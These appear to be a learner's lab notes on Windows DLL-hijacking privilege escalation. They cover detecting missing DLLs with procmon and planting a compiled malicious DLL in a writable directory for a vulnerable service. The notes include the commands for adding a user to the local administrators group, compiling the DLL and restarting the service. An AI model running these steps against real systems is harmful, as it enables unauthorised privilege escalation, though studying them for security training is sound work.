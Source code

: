 # Detection
---
- We can use tools like : **`PowerSploit`**
- Using **procmon** (required Admin Priv)
	- **Add** a filter with **"Result"** **is** **"NAME NOT FOUND"**	- ![[Pasted image 20250418145103.png]]
	- **Add** another filter with "**Path**"  **"Ends with" ".dll"**
		![[Pasted image 20250418145513.png]]
	- **Apply and OK**

	- Stop/Start the vulnerable service with on `cmd.exe`(only works on cmd, not on powershell):
		- `sc stop dllsvc`
		- `sc start dllsvc`
	- We can see the list of directories this .dll file is searched for, the `C:\Temp\` one is writable by us:
		- ![[Pasted image 20250418152952.png]]

# Exploitation
---
- We can either created a malicious `.dll`file to get a reverse shell
- Or we can add our user with a `.dll`file
	- ![[Pasted image 20250418153153.png]]
	- `cmd.exe /k net localgroup administrators user /add`
	- ![[Pasted image 20250418153406.png]]
	- Compile:
		- `x86_64-w64-mingw32-gcc malicious_dll.c -shared -o hijackme.dll`
		- ![[Pasted image 20250418153604.png]]
	- Transfer the file to:
		- `C:\Temp\`
		- ![[Pasted image 20250418153733.png]]
	- Start and stop the service:
		- `sc stop dllsvc`
		- `sc start dllsvc`
		- ![[Pasted image 20250418153945.png]]
	- We won  :)